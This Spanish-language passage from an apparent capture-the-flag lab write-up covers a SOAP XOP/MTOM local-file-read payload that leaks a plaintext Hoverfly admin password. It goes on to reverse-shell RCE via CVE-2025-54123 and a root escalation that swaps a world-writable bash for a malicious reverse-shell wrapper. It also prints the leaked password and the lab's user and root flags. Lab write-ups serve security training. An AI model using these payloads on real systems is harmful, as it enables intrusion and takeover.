```

Para ello, reutilizamos el vector de ataque previamente identificado (XOP/MTOM) y construimos el siguiente payload:

```shell
cat > mtom_test.xml << 'EOF'
Content-Type: multipart/related; type="application/xop+xml"; boundary="MIME_boundary"; start="<rootpart@soap>"; start-info="text/xml"

--MIME_boundary
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-Transfer-Encoding: binary
Content-ID: <rootpart@soap>

<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:dev="http://devarea.htb/"
                  xmlns:xop="http://www.w3.org/2004/08/xop/include">
   <soapenv:Header/>
   <soapenv:Body>
      <dev:submitReport>
         <arg0>
            <confidential>false</confidential>
            <content>
               <xop:Include href="file:///etc/systemd/system/hoverfly.service"/>
            </content>
            <department>IT</department>
            <employeeName>test</employeeName>
         </arg0>
      </dev:submitReport>
   </soapenv:Body>
</soapenv:Envelope>

--MIME_boundary--
EOF
```

Ejecutamos la petición:

```shell
curl -X POST http://devarea.htb:8080/employeeservice \
  -H "Content-Type: multipart/related; type=\"application/xop+xml\"; boundary=\"MIME_boundary\"; start=\"<rootpart@soap>\"" \
  --data-binary @mtom_test.xml
```

Respuesta:

```
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns2:submitReportResponse xmlns:ns2="http://devarea.htb/"><return>Report received from test. Department: IT. Content: W1VuaXRdCkRlc2NyaXB0aW9uPUhvdmVyRmx5IHNlcnZpY2UKQWZ0ZXI9bmV0d29yay50YXJnZXQKCltTZXJ2aWNlXQpVc2VyPWRldl9yeWFuCkdyb3VwPWRldl9yeWFuCldvcmtpbmdEaXJlY3Rvcnk9L29wdC9Ib3ZlckZseQpFeGVjU3RhcnQ9L29wdC9Ib3ZlckZseS9ob3ZlcmZseSAtYWRkIC11c2VybmFtZSBhZG1pbiAtcGFzc3dvcmQgTzdJSjI3TXl5WGlVIC1saXN0ZW4tb24taG9zdCAwLjAuMC4wCgpSZXN0YXJ0PW9uLWZhaWx1cmUKUmVzdGFydFNlYz01ClN0YXJ0TGltaXRJbnRlcnZhbFNlYz02MApTdGFydExpbWl0QnVyc3Q9NQpMaW1pdE5PRklMRT02NTUzNgpTdGFuZGFyZE91dHB1dD1qb3VybmFsClN0YW5kYXJkRXJyb3I9am91cm5hbAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0Cg==</return></ns2:submitReportResponse></soap:Body></soap:Envelope>
```

La respuesta contiene datos en **Base64**, lo que indica que el archivo ha sido leído correctamente. Procedemos a decodificarlo:

```shell
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPUhvdmVyRmx5IHNlcnZpY2UKQWZ0ZXI9bmV0d29yay50YXJnZXQKCltTZXJ2aWNlXQpVc2VyPWRldl9yeWFuCkdyb3VwPWRldl9yeWFuCldvcmtpbmdEaXJlY3Rvcnk9L29wdC9Ib3ZlckZseQpFeGVjU3RhcnQ9L29wdC9Ib3ZlckZseS9ob3ZlcmZseSAtYWRkIC11c2VybmFtZSBhZG1pbiAtcGFzc3dvcmQgTzdJSjI3TXl5WGlVIC1saXN0ZW4tb24taG9zdCAwLjAuMC4wCgpSZXN0YXJ0PW9uLWZhaWx1cmUKUmVzdGFydFNlYz01ClN0YXJ0TGltaXRJbnRlcnZhbFNlYz02MApTdGFydExpbWl0QnVyc3Q9NQpMaW1pdE5PRklMRT02NTUzNgpTdGFuZGFyZE91dHB1dD1qb3VybmFsClN0YW5kYXJkRXJyb3I9am91cm5hbAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0Cg==' | base64 -d -w0
```

Respuesta:

```
[Unit]
Description=HoverFly service
After=network.target

[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0

Restart=on-failure
RestartSec=5
StartLimitIntervalSec=60
StartLimitBurst=5
LimitNOFILE=65536
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target
```
## Análisis de la información obtenida

Del contenido del servicio podemos extraer varios puntos clave:

- El servicio se ejecuta como el usuario `dev_ryan`
- Se especifica un comando de arranque (`ExecStart`) con parámetros explícitos
- **Las credenciales están hardcodeadas directamente en el comando de ejecución**

En concreto:

```
-username admin
-password O7IJ27MyyXiU
```

Esto confirma que el servicio está exponiendo credenciales en texto plano dentro de su configuración, lo cual es una mala práctica de seguridad.
## Acceso al panel de administración

Con las credenciales obtenidas:

```
User: admin
Pass: O7IJ27MyyXiU
```

Procedemos a autenticarnos en el panel de Hoverfly (`http://devarea.htb:8888/`).

Tras introducirlas, conseguimos acceso válido al panel de administración:

<figure><figcaption></figcaption></figure>

# Escalate user dev_ryan
## CVE-2025-54123

<figure><figcaption></figcaption></figure>

Tras realizar una enumeración del servicio **Hoverfly**, identificamos una vulnerabilidad asociada con el identificador **CVE-2025-54123**, la cual permite la ejecución remota de comandos (**RCE**) a través de un endpoint específico de la API.

El endpoint vulnerable es:

```
/api/v2/hoverfly/middleware
```

Podemos encontrar más información técnica en:

URL = [Info CVE-2025-54123 Pagina](https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMSPECTOLABSHOVERFLYCORE-12671221)

En esta referencia se describe un **PoC** que permite explotar la vulnerabilidad manipulando la configuración del middleware de Hoverfly.
## Verificación del endpoint

En primer lugar, comprobamos si el endpoint está accesible. Desde el navegador no es posible interactuar directamente con la API, por lo que utilizamos `curl` autenticándonos mediante la cookie de sesión obtenida desde el navegador (almacenada en el _Session Storage_).

<figure><figcaption></figcaption></figure>

Realizamos la siguiente petición:

```shell
curl -X GET 'http://devarea.htb:8888/api/v2/hoverfly' \
  -H 'Authorization: Bearer <COOKIE_SESSION>'
```

Respuesta:

```
{"cors":{"enabled":false},"destination":".","middleware":{"binary":"","script":"","remote":""},"mode":"modify","arguments":{},"isWebServer":false,"usage":{"counters":{"capture":0,"diff":0,"modify":0,"simulate":4,"spy":0,"synthesize":0}},"version":"v1.11.3","upstreamProxy":""}
```
### Análisis

De la respuesta podemos destacar:

- El servicio está en modo `modify`
- El parámetro `"destination": "."` indica que está operando sobre todo el tráfico
- La sección `"middleware"` permite definir binarios y scripts personalizados

Este último punto es clave, ya que es precisamente el vector que permite la ejecución remota de comandos.
## Explotación (RCE)

Siguiendo el PoC, vamos a inyectar un comando en el middleware para obtener una reverse shell.

Primero, nos ponemos en escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

A continuación, enviamos la siguiente petición al endpoint vulnerable:

```shell
curl -X PUT "http://devarea.htb:8888/api/v2/hoverfly/middleware" \
  -H "Authorization: Bearer <COOKIE_SESSION>" \
  -H "Content-Type: application/json" \
  -d '{
    "binary": "/bin/bash",
    "script": "bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1"
  }'
```
## Obtención de shell

Si la explotación es correcta, recibiremos una conexión entrante en nuestro ``listener``:

```
listening on [any] 7777 ...
connect to [10.10.15.228] from (UNKNOWN) [10.129.24.40] 36030
bash: cannot set terminal process group (1455): Inappropriate ioctl for device
bash: no job control in this shell
dev_ryan@devarea:/opt/HoverFly$ whoami
whoami
dev_ryan
```

Confirmamos que hemos obtenido acceso como el usuario:

```
dev_ryan
```
## Sanitización de shell (TTY)

Para trabajar de forma más cómoda, procedemos a estabilizar la shell:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez estabilizada la shell, ya podemos acceder a los recursos del usuario `dev_ryan` y leer la ``flag``.

> user.txt

```
538736d2d528d24b085f021280fdd3eb
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

Si hacemos ``sudo -l`` veremos lo siguiente:

```
Matching Defaults entries for dev_ryan on devarea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dev_ryan may run the following commands on devarea:
    (root) NOPASSWD: /opt/syswatch/syswatch.sh, !/opt/syswatch/syswatch.sh web-stop, !/opt/syswatch/syswatch.sh web-restart
```
## Interpretación

Podemos extraer lo siguiente:

- El usuario `dev_ryan` puede ejecutar `/opt/syswatch/syswatch.sh` como **root sin contraseña**
- Sin embargo, existen restricciones explícitas para los argumentos:
    - `web-stop`
    - `web-restart`

Esto indica que tenemos una superficie de ataque interesante a través de este script.
## Restricciones de acceso al script

Al intentar inspeccionar directamente el contenido del script en `/opt/syswatch/`, encontramos restricciones:

```shell
ls -la /opt/
```

Respuesta:

```
drwxr-xr-x+  8 root root 4096 Mar 22 18:55 syswatch
```

El símbolo `+` indica la presencia de **ACLs (Access Control Lists)**, lo que impide que podamos listar o leer directamente los archivos del directorio.

Por ello, ejecutamos el script directamente para observar su funcionalidad:

```shell
sudo /opt/syswatch/syswatch.sh
```

Respuesta:

```
Usage: /opt/syswatch/syswatch.sh <command> [args]
Commands:
  web                 Start web GUI
  web-stop            Stop web GUI
  web-restart         Restart web GUI
  web-status          Show web GUI status
  plugin <name> [args] Execute plugin
  plugins             List available plugins
  logs <file>         View log file
  logs --list         List available log files
  --version           Show version
  --help|-h|help      Show this help
```
## Análisis del código fuente (versión local)

Antes de profundizar, observamos que en el directorio home existe un archivo:

```shell
cd ~/
unzip syswatch-v1.zip
cd syswatch/
ls -la
```

Respuesta:

```
total 44
drwxr-xr-x 7 dev_ryan dev_ryan 4096 Dec 14 13:37 .
drwxr-x--- 7 dev_ryan dev_ryan 4096 Mar 30 09:52 ..
drwxr-xr-x 2 dev_ryan dev_ryan 4096 Dec 12 21:37 backup
drwxr-xr-x 2 dev_ryan dev_ryan 4096 Dec 10 02:37 config
drwxr-xr-x 2 dev_ryan dev_ryan 4096 Dec 12 21:37 logs
-rwxr-xr-x 1 dev_ryan dev_ryan  265 Dec 10 20:47 monitor.sh
drwxr-xr-x 2 dev_ryan dev_ryan 4096 Dec 10 14:33 plugins
-rwxr-xr-x 1 dev_ryan dev_ryan 3407 Dec 13 16:00 setup.sh
drwxr-xr-x 4 dev_ryan dev_ryan 4096 Dec 13 16:00 syswatch_gui
-rw-rw-r-- 1 dev_ryan dev_ryan 6103 Dec 14 13:37 syswatch.sh
```

Esto nos proporciona una copia del proyecto, incluyendo el script `syswatch.sh`, que probablemente sea muy similar al que se ejecuta en `/opt`.

Tras analizar el código, no encontramos inicialmente un vector de explotación directo.
## Permisos inseguros en `bash`

Después de ejecutar herramientas de enumeración como `linpeas`, identificamos un problema crítico:

```shell
ls -la /usr/bin/bash
```

Respuesta:

```
-rwxrwxrwx 1 root root 1446024 Mar 31  2024 /usr/bin/bash
```

Esto implica que **cualquier usuario puede modificar el binario de `bash`**, lo cual es una mala configuración extremadamente peligrosa.
## Vector de explotación: Hijacking de `bash`

Dado que el script `syswatch.sh` puede ejecutarse como **root** y hace uso directo del binario `bash`, es posible abusar de este comportamiento mediante una técnica de **binary hijacking**.

La idea general del ataque es la siguiente:

1. Crear un wrapper malicioso que suplante a `bash`
2. Reemplazar el binario original aprovechando los permisos inseguros (`777`)
3. Forzar su ejecución a través de `sudo`, logrando así ejecución de código como **root**

Este enfoque es viable debido a que cualquier invocación a `bash` por parte del script privilegiado ejecutará nuestro binario modificado.
## Preparación del payload

Procedemos a crear un wrapper malicioso que, en primer lugar, establezca una reverse shell hacia nuestra máquina y, posteriormente, invoque el binario legítimo para no romper la ejecución:

```shell
mkdir -p /tmp/evil
cd /tmp/evil
cat >/tmp/evil/bash <<'EOF'
#!/tmp/bash_original
/tmp/bash_original -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1 &
EOF
chmod +x /tmp/evil/bash
```

Este script actúa como sustituto de `bash`, redirigiendo la ejecución hacia una shell interactiva remota.
## Consideración importante

No es recomendable sobrescribir directamente `/usr/bin/bash` mientras estamos trabajando sobre una sesión interactiva basada en `bash`, ya que podríamos romper nuestra propia shell y perder acceso al sistema.

Para evitar este problema, generamos una nueva reverse shell utilizando `/bin/sh`, lo que nos permite operar sin depender del binario que vamos a modificar.

Para ello, reutilizamos el vector de ejecución remota previamente identificado:

```shell
curl -X PUT "http://devarea.htb:8888/api/v2/hoverfly/middleware" \
  -H "Authorization: Bearer <COOKIE_SESSION>" \
  -H "Content-Type: application/json" \
  -d '{
    "binary": "/usr/bin/python3",
    "script": "import os,socket,subprocess;s=socket.socket();s.connect((\"<IP_ATTACKER>\",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])"
  }'
```

En este caso, utilizamos `python3` para establecer una shell basada en `/bin/sh`, lo que nos permite continuar con el ataque de forma segura.
## Ejecución del ataque

Una vez obtenida la nueva sesión, procedemos con los siguientes pasos:

1. Nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

2. Realizamos una copia de seguridad del binario original de `bash`:

```shell
cp /usr/bin/bash /tmp/bash_original
```

3. Sustituimos el binario original por nuestro wrapper malicioso:

```shell
cp /tmp/evil/bash /usr/bin/bash
```

4. Ejecutamos el script privilegiado para forzar la ejecución de nuestro `bash`:

```shell
sudo /opt/syswatch/syswatch.sh
```

Al ejecutarse el script como **root**, este invoca nuestro binario `bash` modificado, lo que provoca la conexión inversa hacia nuestra máquina atacante:

```
listening on [any] 7755 ...
connect to [10.10.15.228] from (UNKNOWN) [10.129.24.140] 36272
bash_original: cannot set terminal process group (1434): Inappropriate ioctl for device
bash_original: no job control in this shell
root@devarea:/tmp/evil# whoami
whoami
root
```

Como se observa, hemos conseguido ejecución de comandos con privilegios de **root**. 

Finalmente, accedemos al archivo de la ``flag``.

> root.txt

```
2941f07e3a95e12142d7f67a1cb74d1e
```

